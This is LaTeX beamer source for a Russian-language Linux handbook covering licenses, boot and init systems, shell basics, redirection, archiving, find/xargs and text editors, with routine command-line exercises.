%\documentclass[ignorenonframetext, professionalfonts, hyperref={pdftex, unicode}]{beamer}
\documentclass[pdftex,12pt,a4paper]{report}
\usepackage{beamerarticle}

\usetheme{Copenhagen}
\usecolortheme{wolverine}

%Packages to be included
\usepackage{graphicx}

\usepackage[T2A,T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{cmap}

%%\usepackage[orientation=landscape, size=custom, width=16, height=9.75, scale=0.5]{beamerposter}

\usepackage{textcomp}

%\usepackage{beamerthemesplit}

\usepackage{ulem}

\usepackage{verbatim}

\usepackage{ucs}

\usepackage{url}

\usepackage{listings}
\lstloadlanguages{bash}

\lstset{escapechar=`,
	extendedchars=false,
	language=sh,
	frame=single,
	tabsize=2, 
	columns=fullflexible, 
%	basicstyle=\scriptsize,
	keywordstyle=\color{blue}, 
	commentstyle=\itshape\color{brown},
%	identifierstyle=\ttfamily, 
	stringstyle=\mdseries\color{green}, 
	showstringspaces=false, 
	numbers=left, 
	numberstyle=\tiny, 
	breaklines=true, 
	inputencoding=utf8,
	keepspaces=true,
	morekeywords={u\_short, u\_char, u\_long, in\_addr}
	}

\definecolor{darkgreen}{cmyk}{0.7, 0, 1, 0.5}

\lstdefinelanguage{diff}
{
    morekeywords={+, -},
    sensitive=false,
    morecomment=[l]{//},
    morecomment=[s]{/*}{*/},
    morecomment=[l][\color{darkgreen}]{+},
    morecomment=[l][\color{red}]{-},
    morestring=[b]",
}

\author[Epam]{{\bf Epam}\\Low Level Programming Department}

%\institution[EPAM]{EPAM}
\logo{\includegraphics[width=1cm]{logo.png}}

\usepackage[unicode=true]{hyperref}
\hypersetup{
    pdfkeywords={Linux},
    bookmarksnumbered=true,
    bookmarksopen=true,
    bookmarksopenlevel=1,
    colorlinks=true,
    pdfstartview=Fit,
    pdfpagemode=UseOutlines,
    pdfpagelayout=TwoPageRight
}

\title{Software development in Linux environment\\Handbook}

\mode<all>{
\usepackage{pgf,tikz}
\usetikzlibrary{babel}

% built files
\definecolor{bfile}{rgb}{.9,0.9,0.9}
% distributed generated files
\colorlet{dgfile}{yellow}
% auto* input file
\colorlet{afile}{green!33}
% tools
\definecolor{tfile}{rgb}{1.0,0.5,0.5}

\tikzstyle{afile}=[draw,fill=afile,shape=rectangle,inner sep=1ex]
\tikzstyle{bfile}=[draw,fill=bfile,shape=rectangle,inner sep=1ex]
\tikzstyle{dgfile}=[draw,fill=dgfile,shape=rectangle,inner sep=1ex]
\tikzstyle{tfile}=[draw,fill=tfile,shape=rectangle,inner sep=1ex]

\newcommand\arr[1][]{\draw[thick,->,#1]}
\def\afile{\node[style=afile]}
\def\bfile{\node[style=bfile]}
\def\dgfile{\node[style=dgfile]}
\def\tfile{\node[style=tfile]}

\newcommand{\filename}[1]{{\color{blue}{\textit{\begingroup \urlstyle{sf}\Url{#1}}}}}
\newcommand{\filenamew}[1]{{{\textit{\begingroup \urlstyle{sf}\Url{#1}}}}}
\newcommand{\command}[1]{\texttt{#1}}

}
\begin{document}

\maketitle

\tableofcontents


\part{Введение}

\mode<all>{\chapter{Основы Linux}

\begin{frame}{Основы ОС Linux}

	\begin{block}{Вопрос}
	Почему Linux является самой популярной
	свободной операционной системой?
	\end{block}

	\pause

	\begin{block}{Ответ}
	\begin{itemize}
		\item \textcopyleft -- Copyleft
		\item ``Философия'' Unix
		\item Открытые стандарты
	\end{itemize}
	\end{block}

\end{frame}


\chapter[Принципы]{Базовые принципы ОС Linux}

\subsection{GNU/Linux}

\mode<all>{\input{../../slides/intro/vocabulary}}

\subsection{Лицензии}

\mode<all>{\begin{frame}{Авторское право и лицензии}

	\begin{block}{Авторское право}
		 Возникает по факту создания ПО 

		\begin{itemize}
			\item Неимущественные права
			\item Имущественные права
		\end{itemize}
	\end{block}

	\pause

	\begin{block}{Лицензии}
		Лицензия -- средство передать какие-либо права на продукт либо его часть.

		Необходима для защиты авторских прав. 
		Средство для возможности законно пресечь несанкционирование копирование,  использование или распространение ПО. 
	\end{block}
\end{frame}


\begin{frame}{Лицензии: открытые и свободные}
	\begin{block}{ Р.Столлман: 4 свободы}
		\begin{itemize}
			\item Свобода 0: Свобода запускать программу в любых целях.
			\item Свобода 1: Свобода изучения работы программы и адаптация её к вашим нуждам. 
				Доступ к исходным текстам является необходимым условием.
			\item Свобода 2: Свобода распространять копии,  так что вы можете помочь вашему товарищу.
			\item Свобода 3: Свобода улучшать программу и публиковать ваши улучшения,
				так что всё общество выиграет от этого.
				Доступ к исходным текстам является необходимым условием.
		\end{itemize}
	\end{block}
\end{frame}


\begin{frame}{Лицензии: permissive}
	\begin{columns}
	\column{0.3\textwidth}
		\center\includegraphics[width=2cm,natwidth=144,natheight=144]{../../slides/intro/three-arrows@2x.png}

	\column{0.6\textwidth}

	\begin{itemize}
		\item BSD
		\item MIT
		\item Apache
	\end{itemize}
	\end{columns}

	\begin{block}{I want it simple and permissive.}
		\begin{itemize}
			\item практически не ограничивают свободу действий пользователей ПО и разработчиков, работающих с исходным кодом.
			\item По своему духу, распространение работы под пермиссивной лицензией схоже с помещением работы в общественное
				достояние, но не требует отказа от авторского права.
		\end{itemize}
	\end{block}

\end{frame}


\begin{frame}{\textcopyleft -- Copyleft}

	\begin{columns}
	\column{0.3\textwidth}
		\center\includegraphics[width=2cm,natwidth=144,natheight=138]{../../slides/intro/circular@2x.png}

	\column{0.6\textwidth}

	\begin{itemize}
		\item GPL
		\item LGPL
		\item AGPL
	\end{itemize}
	\end{columns}


	\begin{block}{I care about sharing improvements.}
	
	Авторское лево -- концепция и практика использования законов авторского права для обеспечения 
	невозможности ограничить любому человеку право использовать,  изменять и распространять как 
	исходное произведение,  так и произведения,  производные от него.
	\end{block}


	При копилефте все производные произведения должны распространяться под той же лицензией,
	что и оригинальное произведение.

\end{frame}



}

\subsection{Принципы проектирования переносимых программ}

\mode<all>{\input{../../slides/intro/unixway}}

\section{Дистрибутивы ОС Linux}

\mode<all>{\begin{frame}{Дистрибутив ОС GNU/Linux}
	\begin{block}{ Определение}
		\only<1>{\center{\bf{?}}}
		\pause
		\only<2->{Набор программного обеспечения на базе ядра Linux, распространяющийся как единое целое.}
	\end{block}
\end{frame}


\begin{frame}{Задачи дистрибутива}
	\begin{itemize}
		\item Предоставление комплекта ПО (ядро + утилиты)
		\item Средства установки и настройки
		\item Средства обновления
	\end{itemize}
\end{frame}

\begin{frame}{Различия между дистрибутивами}

	\only<1>{\Large\center{\bf{?}}}
	\pause
	\only<2->{\Large\center{\bf{Цели!!!}}}

	\bigskip
	\normalsize

	\pause

	\begin{itemize}
		\begin{columns}
		\column{0.4\textwidth}
			\item Инсталлятор
			\item Первичные настройки
			\item Средства управления
			\item Набор ПО
		\column{0.4\textwidth}
			\item Менеджер пакетов
			\item Формат распространения ПО
			\item Пути к файлам
			\item Система сборки ПО
		\end{columns}
	\end{itemize}
\end{frame}

\begin{frame}{Дистрибутивы}
	\begin{itemize}
		\begin{columns}
		\column{0.3\textwidth}
			\item RedHat
			\item Fedora Core
			\item CentOS
			\item Scientific Linux
			\item Oracle Unbreakable Linux
		\column{0.3\textwidth}
			\item Slackware 
			\item Gentoo
			\item Arch
			\item OpenSUSE
			\item ALT Linux 
		\column{0.3\textwidth}
			\item Debian
			\item Ubuntu
			\item Mint
			\item Knoppix
			\item BackTrack
		\end{columns}
	\end{itemize}
\end{frame}
}

\section{Процесс загрузки ОС Linux}

\subsection{Этапы загрузки}

\mode<all>{\begin{frame}{Процесс загрузки GNU/Linux}
	\scriptsize
	\begin{enumerate}
		\item BIOS
		\item Master Boot Record (MBR)
			\pause
		\item Загрузка загрузчика 
		\begin{itemize}
		\footnotesize
			\item Stage 1 -- Первичный загрузчик
			\item Stage 1,5 -- Загрузка ядра загрузчика и драйвера ФС
			\item Stage 2 -- загрузчик читает конфигурацию, загружает ядра и образ initrd (initial-RAM disk) в память
                        \item Передает управление ядру
		\end{itemize}

		\item Запуск программы инициализации в initrd, загрузка драйверов файловых систем (LVM, RAID, NFS)
			\pause
		\item Нахождение и монтирование корневого раздела
			\pause
		\item Запуск программы init
		\begin{itemize}
		\footnotesize
			\item Монтирование оставшихся разделов ФС
			\item Запуск демонов для заданного уровня загрузки (runlevel)
			\item Выдает приглашение пользователю. 
		\end{itemize}

	\end{enumerate}
\end{frame}
}

\subsection{Ядро Linux}

\mode<all>{\begin{frame}{Задачи ядра Linux}
	\begin{itemize}
		\item Инициализация системы
		\item Управление процессами и потоками
		\item Управление памятью
		\item Управление файлами
		\item IPC (Inter Process Communication)
		\item Разграничение доступа
		\item Сетевые возможности
		\item Интерфейс доступа к возможностям ядра
	\end{itemize}
	%Выполнить команду dmesg и найти строки инициализации памяти, CPU, дисковой подсистемы, CPU.
\end{frame}


\begin{frame}{Ядро}

	Ядро ОС Linux является модульным. 

	\begin{block}{Модули}
		\begin{itemize}
			\item В виде отдельных файлов
			\item "Вкомпилированные" в ядро
		\end{itemize}
	\end{block}

	\bigskip
	%Список загруженных модулей: {\tt cat /proc/modules } либо {\tt lsmod}
\end{frame}


\begin{frame}{Параметры ядра}
	
	Полный список: {\tt Documentation/kernel-parameters.txt}

	\begin{block}{Некоторые часто применяемые параметры}
		\begin{itemize}
			\begin{columns}
			\column{0.3\textwidth}
				\item console=ttyS0,9600
				\item debug
				\item init=/sbin/init
				\item loglevel=[0-7]
				\item maxcpus=[num]
			\column{0.3\textwidth}
				\item mem=nn[KMG]
				\item noacpi
				\item noapic
				\item panic=nn (sec)
				\item resume=/dev/sda2
			\column{0.3\textwidth}
				\item ro
				\item rw
				\item root=/dev/sda1
				\item rootdelay=nn (sec)
				\item rootwait
				\item vga=<num>|ask
			\end{columns}
		\end{itemize}
	\end{block}

	Параметры переданные ядру во время загрузки: {\tt /proc/cmdline} \\

        Программы могут использовать /cmdline, например установщик ОС Anaconda \\

	Модулям можно передавать параметры используя синтаксис: {\tt module.param=value} \\
\end{frame}
}

\subsection{Userspace}

\mode<all>{\input{../../slides/intro/initrd}}

\mode<all>{\begin{frame}{init}
	Менеджер управления работой системой и сервисами.
	
	\bigskip

	\center{\large PID = 1}

	\bigskip

	\begin{block}{Наиболее известные}
		\begin{itemize}
			\item SysVInit
			\item systemd
			\item upstart
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}{SysVInit}
	\begin{block}{Управление}
		\begin{itemize}
			\item kernel boot parameters: <N> -- runlevel
			\item утилита {\tt runlevel}
			\item утилита {\tt init}
		\end{itemize}
	\end{block}

	\scriptsize
	\begin{block}{Runlevel}
		\begin{table}
			\begin{tabular}{| c | l | }
			\hline
			Runlevel & Описание\\
			\hline
			0	& Выключить систему \\
			1,s,single & Однопользовательский режим \\
			2	& Многопользовательский режим без графики. Без сетевых сервисов.\\
			3	& Многопользовательский режим без графики. Полноценная сеть. \\
			4	& Определяется на хосте\\
			5	& Многопользовательский режим с графикой.\\
			6	& Перезагрузка\\
			emergency & Аварийная оболочка \\
			\hline
			\end{tabular}
		\end{table}
	\end{block}
\end{frame}

\begin{frame}{SysVInit: сервисы}
	\begin{block}{Управление}
		\begin{itemize}
			\item утилита {\tt service}
			\item утилита {\tt chkconfig}
		\end{itemize}
	\end{block}

	\begin{block}{Сервисы}
		\begin{itemize}
			\item {\tt /etc/rc.d/init.d}
			\item {\tt /etc/rc.d/rc.N}\footnote{N=runlevel}
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}{systemd}
	\begin{block}{Управление}
		\begin{itemize}
			\item kernel boot parameters\\
				{\tt systemd.unit=rescue.target} \\
			\item утилита {\tt systemctl} \\
				{\tt systemctl isolate multi-user.target} \\
				{\tt systemctl set-default single.target}
		\end{itemize}
	\end{block}

	\begin{block}{targets}
		\tiny
		\begin{table}
			\begin{tabular}{| c | l | l | }
			\hline
			Runlevel & Описание\\
			\hline
			0	& poweroff.target & Выключить систему \\
			1,s,single & rescue.target  & Однопользовательский режим \\
			2	& multi-user.target & Многопользовательский режим без графики. Без сетевых сервисов.\\
			3	& multi-user.target & Многопользовательский режим без графики. Полноценная сеть. \\
			4	& multi-user.target & Определяется на хосте\\
			5	& graphical.target & Многопользовательский режим с графикой.\\
			6	& reboot.target & Перезагрузка\\
			emergency & emergency.target & Аварийная оболочка \\
			\hline
			\end{tabular}
		\end{table}
	\end{block}
\end{frame}

\begin{frame}{systemd: сервисы}
	\begin{block}{Управление}
		\begin{itemize}
			\item утилита {\tt systemctl}
		\end{itemize}
	\end{block}

	\begin{block}{Сервисы}
		\begin{itemize}
			\item {\tt /lib/systemd/system/}
			\item {\tt /etc/systemd/system/}
		\end{itemize}
	\end{block}
\end{frame}
}

\subsection{Практика}

\mode<all>{\begin{frame}{Практическое задание}
	\begin{enumerate}
		\item Загрузить ОС по умолчанию
		\item Посмотреть используемые параметры ядра 
		\item Посмотреть список загруженных модулей
			\pause
		\item Переопределить init на sh
		\item SysRq. {\bf R}eboot {\bf E}ven {\bf I}f {\bf S}ystem {\bf U}tterly {\bf B}roken
			\pause
		\item Загрузить ядро с "урезанным" количеством памяти
		\item Отключить 1 или несколько процессоров
			\pause
		\item Посмотреть текущий runlevel
		\item Посмотреть список сервисов
	\end{enumerate}
\end{frame}
}


\chapter{Командная строка}

\section{Интерфейс командной строки}
\mode<all>{% Тема. Командная строка. 
% Показать примеры использования. Рассказать о преимуществах и недостатках в
% сравненни с графическим "оконным" интерфейсом. 
% Ознакомить с назначениме  эмулятора терминала и об реализациях.

\begin{frame}{Примеры использования командной строки}
        CLI (Command Line Interface)
	\begin{columns}
	\column{0.5\textwidth}
        \begin{itemize}
            \item интерфейс настройки сетевого оборудования
            \item чаты
            \item компьютерные игры
            \item операционные системы
        \end{itemize}
	\column{0.5\textwidth}
	% insert picture of Quake 
    \includegraphics[height=0.4\textheight]{../../slides/cmdline/330px-Tremulous_console.png}
	\end{columns}
\end{frame}

\begin{frame}{Преимущества командной строки}
	\begin{itemize}
                \item Используют мало ресурсов
		\item Работа через сеть либо RS232, в том числе медленную
		\item Быстрый доступ к командам системы
		\item Отладка сообществом CLI приложения проще
		\item Легкость автоматизации
	\end{itemize}
\end{frame}

\begin{frame}{Недостатки командной строки}
	\begin{itemize}
		\item Oтсутствуют возможности обнаружения (discoverabililty)
		\item Отсутствие «аналогового» ввода.
		\item Необходимость изучения синтаксиса команд и запоминания сокращений.  (синтаксис может различаться)
		\item Без автодополнения, ввод длинных и содержащих спецсимволы параметров с клавиатуры может быть затруднительным
	\end{itemize}
\end{frame}

\note { 
Примеры приложений которые лучше выглядят в графическом режиме браузер,
редакторы видео и графики. Поэтому пользователь при работе, как правило,
совмещает оба интерфейса: использует графическое окружениe в сочетании с
интерфейсом командной строки. 
В графическом окружении интерфейса командной строки предоставляют приложения -
эмуляторы терминала. 
реализации - для графической системы X Window xterm, rxvt. Для GNOME
gnome-terminal, для KDE konsole, Yakuake (Yet Another Kuake выезжает по нажатии
тильды ~ как Quake)  
Дополнительные замечания:
Терминал - устройство для ввода вывода информации, уже устарел.
Графические приложения можно запускать из командной строки. 
}
}

\section{Командная оболочка (shell)}

\mode<all>{\input{../../slides/cmdline/shell-intro}}

\section{Don't panic! Получение помощи}

\mode<all>{\begin{frame}[fragile]{From FAQ How To Ask Questions The Smart Way}
Before You Ask try to find an answer
  \begin{itemize}
	  \item by reading (RTFM): manual, FAQ, archives of the forum, by searching the Web;
	  \item by inspection or experimentation;
	  \item by asking a skilled friend;
	  \item by reading the source code;
    \end{itemize}
\end{frame}


\begin{frame}[fragile]{Встроенная документация}
\begin{itemize}
    \item \textbf{man} - помощь по внешним командам
    \pause
    \item \textbf{info} - расширенная помощь по некоторым командам (texinfo format)
    \pause
    \item \textbf{find /usr/share/doc/} - файлы документации поставляемые вместе с приложением
    \item \textbf{-h, --help option} - встроенная в приложение справка
    \item \textbf{help} - встроенная помощь по внутренним командам bash (также man bash)
\end{itemize}
\end{frame}

\begin{frame}[fragile]{Основное о man}
      \textbf{man \textless command\_name\textgreater }

	\begin{block}{Example: show uptime manual page}
		{\tt man uptime}
	\end{block}

		\begin{itemize}
			\item Прочитайте {\tt man man} !
		\end{itemize}

\end{frame}

\begin{frame}[fragile]{man page navigation}
		\begin{itemize}
			\item \textbf{up, down} - scroll one line
			\item \textbf{q} - exit
			\item \textbf{/pattern} - search pattern
			\item \textbf{n} - next text pattern
			\item \textbf{N} - repeat search in back direction
			\item \textbf{h} - help
		\end{itemize}
\end{frame}

\begin{frame}[fragile]{Page structure}
		\begin{itemize}
			\item NAME
			\item SYNOPSIS
			\item DESCRIPTION
			\item EXAMPLES
			\item SEE ALSO
		\end{itemize}
\end{frame}

\begin{frame}[fragile]{Разделы помощи}
	\begin{itemize}
		\item[1] Основная секция(юзерские программы)
		\item[2] Syscalls
		\item[3] С library
		\item[5] Конфигурационные файлы
		\item[8] Системные службы
	\end{itemize}
\end{frame}

\begin{frame}[fragile]{More than one section of the manual}
	name(section)  \\ 
	\textbf{man(1)} and \textbf{man(7)}, or \textbf{exit(2)} and \textbf{exit(3)} \\
     \begin{block}{Example: show manual in section 5 and 1}
        \begin{lstlisting}
man -f passwd #or whatis passwd 
man 5 passwd; man 1 passwd; man -wa passwd
        \end{lstlisting}
    \end{block}
\end{frame}

\begin{frame}[fragile]{Поиск по страницам помощи}
     \begin{block}{Упражнение. Поиск страниц с ключевым словом.}
        \begin{lstlisting}
man -f passwd #or whatis passwd 
man -k passwd #or apropos passwd 
whatis  -l -w '*'
man -s 3 -Kw passwd
        \end{lstlisting}
    \end{block}
\end{frame}


%\begin{frame}[fragile]{Чему научились}
%  \begin{itemize}
%  \item Как спрашивать у сообщества
%  \item Умеем использовать 3 источника получения информации man, info, help
%  \item Как перемещаться по страницам помощи info и man
%  \item Иcкать в системе помощи man и запрашивать из одного из 8-ми разделов 
%  \end{itemize}
%\end{frame}
}

\section{Навигация по файловой системе}

\mode<all>{\begin{frame}[fragile]{Путь к файлу.}
      \begin{itemize}
        \item Имя файла
                \begin{itemize}
                    \item чувствительно к регистру
                    \item / разделяет директории
                    \item - \textbackslash <Space> специальные символы 
                    \item . скрытый файл
                \end{itemize}
        \item \alert{Полное имя файла} (absolute pathname) начинается с /
        \item \alert{Относительное имя файла} (relative pathname) начинается с
        любого другого символа. Поиск файла производится относительно
        \alert{текущей директории} (current working directory).
      \end{itemize}

      \begin{block}{Примеры}
        ./ - текущая директория

        ../ - предыдущая директория

        ../../usr/bin/ls

        /usr/bin/ls
      \end{block}
\end{frame}

\begin{frame}[fragile]{Навигация по файловой системе}
      \begin{itemize}
		  \item {\tt pwd} -- имя текущей директории (help pwd)
		  \item {\tt ls} -- список файлов в директории. По умолчанию в текущей (man ls)
		  \item {\tt cd} -- смена текущей директории (help cd)
      \end{itemize}
      \begin{block}{Упражнение. Заходим в /usr/bin/ и просматриваем список доступных команд.}
	\begin{lstlisting}
	pwd
	cd /usr/bin/
	pwd
	ls
	cd -	
	pwd
	\end{lstlisting}
      \end{block}
\end{frame}

\begin{frame}[fragile]{Просмотр типов файлов}
      \begin{block}{Упражнение. Символьное обозначение типа файла.}
Первая буква вывода команды ls -l обозначает тип файла. 
Tip. Команды file позволяет определить тип файла. Ключ -d для работы с
директорией. 

/dev/zero

/dev/sda 

.. 

/bin/sh 

/dev/log

/dev/stdout
      \end{block}
\end{frame}

\begin{frame}[fragile]{Команды для работы с файлами}
	\begin{itemize}
		\begin{columns}
		\column{0.2\textwidth}
			\item touch
			\item ln
			\item mkdir
			\item mknod
			\item mkfifo

		\column{0.2\textwidth}
			\item cp
			\item mv
			\item rm
			\item rmdir
			\item file
			\item install

		\column{0.4\textwidth}
			\begin{block}{Упражнение}
				\begin{enumerate}
					\item Создать иерархию директорий
						\begin{lstlisting}
dir1/dir1.1/dir1.1.1
dir1/dir1.2/dir1.2.1
dir1/dir1.2/dir1.2.2
						\end{lstlisting}
					\item Внутри каждой создать файл
					\item Удалить все созданное
				\end{enumerate}
			\end{block}
			
		\end{columns}
	\end{itemize}
\end{frame}
}

\mode<all>{
\begin{frame}{Детали реализации}
  \begin{itemize}
    \item \alert{VFS - virtual file system} - файлы и каталоги отображаются в единое дерево, независимо от их физического расположения.
  \end{itemize}
  
\includegraphics[height=3.5cm]{vfs-and-devices}
\end{frame}

\begin{frame}{Монтирование}
  \begin{itemize}
    \item \alert{Монтирование} - процесс отображения содержимого устройства в указанную папку файловой системы.
    \item Команды:
      \begin{itemize}
        \item монтировать - ( \alert{mount} ) 
        \item размонтировать ( \alert{umount} )
      \end{itemize}
    \item \alert{mount} без параметров - вывести список уже подключенных файловых систем
  \end{itemize}
      \begin{block}{Упражнение. Дерево монтирования.}
     Получить вывод смонтированных блочных устройств в виде дерева с помощью команды: \alert{findmnt}
      \end{block}
  
\end{frame}

}

\section{Дополнительные возможности оболочки}
\mode<all>{\input{../../slides/cmdline/bash-intro}}

\section{Процессы}
\mode<all>{\input{../../slides/cmdline/process-intro}}

\section{Перенаправление ввода-вывода}
\mode<all>{

\begin{frame}{Конвееры}
%  \textbf{Цель} -- максимальная модульность: большое количество простых приложений, взаимодействующих друг с другом для решения задач
  \only<1>{
  \begin{center}
    \includegraphics[width=1.2in]{../../slides/cmdline/process}
  \end{center}
  }
  \only<2>{
    \begin{center}
      \includegraphics[width=3.6in]{../../slides/cmdline/processes}
    \end{center}
  }
  \begin{itemize}
    \item <1-> Каждое приложение открывает 3 стандартных файловых дескриптора (file descriptor) \alert{stdin (fd 0)}, \alert{stdout(fd 1)}, \alert{stderr (fd 2) }
    \item <2-> Приложения могут работать как фильтр из \alert{STDIN} в \alert{STDOUT}, можно объединять несколько приложений в конвейер
    \item <2-> Синтаксис {\tt <app1> | <app2>}
  \end{itemize}
\end{frame}
}
\mode<all>{\begin{frame}{Перенаправления в файл}

\begin{itemize}
  \item Перенаправление stdout FD=1
    \begin{itemize}
      \item С созданием нового файла

        {\tt command > file}\\
		Например {\tt cat file1 file2 > file3}
      \item С дополнением существующего

		  {\tt command >\phantom{}>  file}
    \end{itemize}
    \pause
  \item Перенаправления stdin FD=0

    {\tt command < file}
    \pause
  \item Перенаправления stderr FD=2

    {\tt command1 2>\&1 | command2}

   {\tt command 1>file 2>\&1}

   {\tt command 2>file 1>\&2}
\end{itemize}

\end{frame}
}
\mode<all>{\input{../../slides/cmdline/io-redirection-here.tex}}

\section{Полезные команды}

\mode<all>{\begin{frame}{Дополнительный набор команд}
  \begin{itemize}
    \item {\tt cat} - Вывод файла в stdout, соединение нескольких файлов в stdout
    \item {\tt wc} - подсчет статистики символов в файле или в stdin 
    \item {\tt sort} - сортировка строк файла
    \item {\tt uniq} - объединение одинаковых строк в одну
    \item {\tt tr} - замена набора символов
    \item {\tt less} - программа-пейджер
    \item {\tt grep} - поиск строк, соответствующих регулярному выражению
    \item {\tt cut} - выделение полей из строк stdin
    \item {\tt awk} - небольшой язык программирования (также полезен для выделения полей)
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{Некоторые примеры использования}
\begin{lstlisting}[language=bash]
cat /proc/1/environ | tr '\0' '\n' | less
ls  | wc -l # подсчет числа файлов
man uniq | tr  '[:space:]' '\n' | sort | uniq -c | sort -n | less # подсчет количества слов в тексте man uniq
history | wc -l # подсчет ранее введенных команд
cat /etc/udev/rules.d/* | wc -l
ls -s *.jpg | awk 'BEGIN{s=0};/^[ ]*[0-9]/{s+=`\$1`};END{print s}' 
\end{lstlisting}
  \pause
  \begin{block}{Упражнение}
    Посчитать статистику использования команд в history
  \end{block}
\end{frame}

\begin{frame}{Дополнительный набор команд для работы с текстом}
	\begin{itemize}
	  \item {\tt head} -- вывести первые строки
	  \item {\tt tail} -- вывести последние строки
		\begin{itemize}
			\item {\tt -f} -- отслеживать добавление данных в файл 
		\end{itemize}
	  \item {\tt tee} -- копировать стандартный вывод в файл
	  \item {\tt grep} -- печать текста, соответствующего шаблону
		\begin{itemize}
			\item {\tt -i}	
			\item {\tt -v}
			\item {\tt -o}
		\end{itemize}
	\end{itemize}
\end{frame}

}

\subsection{Архиваторы}
\mode<all>{\begin{frame}[fragile]{Архивация}
	\begin{block}{Архивация: tar}
		\begin{itemize}
			\item {\tt -c} -- создать архив
			\item {\tt -x} -- извлечь из архива
				\begin{itemize}
					\item {\tt -C} -- перейти в директорию
					\item {\tt -{}-strip-components=N} -- пропустить N уровней
				\end{itemize}
			\item {\tt -f} -- запись в файл
		\end{itemize}
	\end{block}

	\begin{block}{Сжатие: gzip, bzip, xz}
		\begin{itemize}
			\item {\tt -[1-9]} -- изменить уровень сжатия
			\item {\tt -d} -- распаковать
			\item {\tt -c} -- вывод на консоль
		\end{itemize}
		\begin{verbatim}
dd if=/dev/sda bs=1M count=1 | gzip -c > backup.gz
    \end{verbatim}
	\end{block}

\end{frame}

\begin{frame}[fragile]{Архивация: примеры}
	Создать сжатый архив:
	\begin{verbatim}
tar -czf archive.tar.gz *
        \end{verbatim}
	\pause
	Распаковать сжатый архив в директорию {\tt /tmp}:
	\begin{verbatim}
tar -C /tmp/ -xzf archive.tar.gz
        \end{verbatim}
	\pause
	Создать копию текущей директории в директории {\tt /tmp/copy/}:
	\begin{verbatim}
tar -c * | tar -C /tmp/copy -x
tar -cf - * | tar -C /tmp -xf -
        \end{verbatim}
	\pause
	Создать копию текущей директории на другом хосте:
	\begin{verbatim}
HostDest: netcat -l 2222 | gzip -dc | tar -C /tmp/copy/ -x
HostSrc:  tar -c * | gzip -9 | netcat HostDest 2222
        \end{verbatim}
\end{frame}
}

\subsection{find и xargs}
\mode<all>{\begin{frame}[fragile]{Поиск файлов командой find}
    \alert{find} ищет файлы в заданной директории и производит над ним заданную операцию.
	\begin{block}{Часто используемые параметры поиска}
		\begin{itemize}
			\item {\tt -name}, {\tt -iname} -- имя файлового объекта, включая метасимволы 
			\item {\tt -type} -- тип файлового объекта
			\item {\tt -size} -- размер [cwbkMG]
			\item {\tt -perm} -- права доступа
			\item {\tt -user} -- владелец
			\item {\tt ...} -- другие опции man find 
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}[fragile]{Файлы найдены}
	\begin{block}{Действия над результом поиска}
		\begin{itemize}
			\item {\tt -print} -- вывод на stdout (по умолчанию)
			\item {\tt -printf} -- форматированный вывод
			\item {\tt -exec} -- выполнить команду
			\item {\tt -ls} -- замена -exec ls -l \{\} ;
			\item {\tt -delete} -- удалить файл
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}[fragile]{Примеры использования команды find}
            В текущей директории найти все файлы *.o и вывести на экран 
            \begin{verbatim} find . -name '*.o' -print \end{verbatim}
            \begin{verbatim} find -name '*.o' \end{verbatim}
            Поск по типу и владельцу файла.
            \begin{verbatim} find -type d -user altlinux \end{verbatim}
            Составная команда, множество условий
            \begin{verbatim} find /root \( -name '*.pyc' -o -name '*.py' \) \
-type f -user root -size +300k -size -1024k \
-exec ls -l \{\} \; \end{verbatim}
 Дополнительно: позволяет преодолеть лимит на кол-во аргументов в командной строке. 
 \textquotedblleft Arguments too long.\textquotedblright 
\end{frame}

\begin{frame}[fragile]{xargs}
			Утилита для создания и запуска команд из стандартного потока ввода:
		\begin{verbatim}
xargs [options] command [command options]
                \end{verbatim}
		\begin{itemize}
			\item {\tt -d} -- разделитель
			\item {\tt -0} -- null-terminated строки
			\item {\tt -I text} -- подстановка
			\item {\tt -n N} -- максимальное количество аргументов
			\item {\tt -P N} -- максимальное количество процессов
		\end{itemize}

%Для работы с разделителями в имени файла: пробелы, tab, символ новой строки. 
Использовать -print0 в команде find для замены на ASCII NUL в имени файла.
\end{frame}

\begin{frame}[fragile]{xargs}
	\begin{block}{Примеры}
		\begin{verbatim}
file /bin/*  | grep shell | cut -f 1 -d ':' | xargs wc -l 
# calculate number of strings in all shell scripts
                \end{verbatim}
		\begin{verbatim}
find /etc -type f -size -100k | \
 xargs tar -czf /tmp/archive-100k.tar.gz
                \end{verbatim}
		\begin{verbatim}
find /etc -type f | xargs -I {} echo "Найден {} файл"
                \end{verbatim}

		\begin{verbatim}
find . -type f -name "*.mp3" -print0 | \
 xargs -0 -n 1 -P 0 -I mp3 avconv -i mp3 mp3.ogg
                \end{verbatim}
	
	\end{block}
\end{frame}
}

\subsection{Редакторы}
\mode<all>{\begin{frame}{Текстовые редакторы}
	\begin{itemize}
		\item Интерактивные
			\begin{itemize}
				\item vi
				\item vim
				\item emacs
			\end{itemize}
		\item Поточные
			\begin{itemize}
				\item {\tt ed}
				\item {\tt sed}
				\item {\tt awk}
			\end{itemize}
	\end{itemize}
\end{frame}

%%\begin{frame}[fragile]{Метасимволы}
%	\begin{block}{grep, sed, awk}
%	\end{block}
%	\begin{itemize}
%		\item {\tt .} -- любой символ за исключением пустой строки
%		\item {\tt *} -- любоe количество символов, которые стоят перед {\tt *}
%		\item {\tt \^{}} -- начало строки
%		\item {\tt \$} -- конец строки
%		\item {\tt [...]} -- любой символ из заключенных в скобки
